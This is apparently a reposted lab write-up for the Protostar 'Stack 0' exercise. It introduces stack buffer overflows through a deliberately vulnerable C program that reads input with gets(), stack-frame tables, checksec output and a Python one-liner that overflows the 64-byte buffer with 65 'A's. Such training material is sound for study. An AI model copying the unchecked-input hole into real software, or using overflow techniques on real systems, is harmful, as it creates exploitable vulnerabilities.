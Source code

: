 # Protostar - Stack 0

> NOTE: This writeup is __not__ written by me, John Hammond. This writeup is shamelessly stolen from [Maxime Peterlin](https://rainbowlyte.com/) (because he has done a much better job than I ever could), and the real original writeup can be found here: [https://github.com/RainbowLyte/writeups/blob/master/exploit-exercises_Protostar/stack0.md](https://github.com/RainbowLyte/writeups/blob/master/exploit-exercises_Protostar/stack0.md)

### About ###

>This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.
>
>This level is at `/opt/protostar/bin/stack0`

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

### Solution ###

This first challenge is an introduction to stack buffer overflows. The goal is to change the value of the variable `modified`.
The executable `stack0` is a 32-bit LSB ELF with no software protection, which can be verified with [checksec.sh](http://www.trapkit.de/tools/checksec.html)


```
user@protostar:/tmp$ ./checksec.sh --file /opt/protostar/bin/stack0
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /opt/protostar/bin/stack0
```

The local variables of the function `main` (`modified` and `buffer`) are located on the stack of the process. We can write in the array `buffer` with the function `gets`. 

Initially the stack frame is as follows:

`main` Stack Frame variables | `main` Stack Frame values
---:|:---
buffer[0:3] | `0x00000000`
buffer[4:7] | `0x00000000`
... | `0x00000000`
buffer[60:63] | `0x00000000`
modified | `0x00000000`
Saved ebp | `0xbffff818`

Now, if the input is "hello" (`0x68656c6c6f` with the ASCII values), the stack frame will look like this:

`main` Stack Frame variables | `main` Stack Frame values
---:|:---
buffer[0:3] | `0x6c6c6568`
buffer[4:7] | `0x0000006f`
... | `0x00000000`
buffer[60:63] | `0x00000000`
modified | `0x00000000`
Saved ebp | `0xbffff818`

> The bytes are "inverted" because the executable is [LSB](https://en.wikipedia.org/wiki/Endianness)

In these scenarios, everything works as intended. Although, since `gets` does not check the size of our input, we can provide a string with a length greater than 64 characters and that's how we can change the value of `modified`.
So, if our input is 65 times `A` (ASCII code `0x41`), `modified` will have the value `0x41`.

`main` Stack Frame variables | `main` Stack Frame values
---:|:---
buffer[0:3] | `0x41414141`
buffer[4:7] | `0x41414141`
... | `0x41414141`
buffer[60:63] | `0x41414141`
modified | `0x00000041`
Saved ebp | `0xbffff818`

```
user@protostar:/tmp$ python -c "print 'A'*64" | /opt/protostar/bin/stack0
Try again?
user@protostar:/tmp$ python -c "print 'A'*65" | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```

